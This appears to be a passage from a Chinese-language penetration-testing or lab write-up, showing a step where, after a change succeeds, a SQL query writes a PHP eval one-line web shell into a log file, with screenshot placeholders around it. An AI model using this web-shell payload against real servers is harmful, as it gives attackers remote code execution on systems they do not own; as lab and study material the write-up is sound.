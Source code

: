 ![image-20231228215526439](image/image-20231228215526439.png)

更改成功，接着向日志文件写shell

```sql
select '<?php eval ($_POST[s]);?>'
```

![image-20231228215619334](image/image-20231228215619334.png)
